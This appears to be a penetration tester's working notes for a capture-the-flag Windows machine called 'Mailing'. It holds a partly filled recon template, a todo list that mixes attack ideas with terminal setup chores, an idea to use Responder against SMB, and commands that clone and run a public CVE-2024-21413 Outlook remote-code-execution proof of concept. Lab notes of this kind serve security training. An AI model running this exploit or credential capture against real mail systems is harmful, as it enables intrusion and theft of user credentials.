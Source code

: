 # Mailing Notes

## Data

IP:
OS: Windows 10 / Server 2019 Build 19041   
Arch: x64
Hostname: MAILING1
DNS: MAILING
Domain:  
Machine Purpose: EMAILS
Services:
Service Languages: asp
Users:
Email and Username Formatting:
Credentials:



#### Mindmap-per Service

- OS detect, run generate noting for nmap
- smb is [[smb-signing-not-required-mailing.htb_445]] - Responder at some privilege escalation point?
	
- instructions.pdf

- 25 checked
-
-
-
-
-
-
-
-
-
-
-
-



#### Todo List

- Check each email port 
- Think about swaqs, passwords, major cve pocs on email service version 
- Thunderbird on Windows?

		- no terminal transparency 
		- Desktop Background change
		- bash incorrect shell startup display
		- color scheme
		- Terminal add a space?
		- window titlebar right
		- tmux config
			- change color
			- add bar for vim line numbering
			- finish tmux log everything
		- log everything script
		- No GUI sounds
		- new terminal or alt+h conflicts with tmux
		- gzip -d /usr/share/wordlists/rockyou.txt
#### Done



grepmorecoffee
```bash
git clone https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability.git


python CVE-2024-21413.py --server "<SMTP server>" --port <SMTP port> --username "<SMTP username>" --password "<SMTP password>" --sender "<sender email>" --recipient "<recipient email>" --url "<link URL>" --subject "<email subject>"
```

Scheduled Task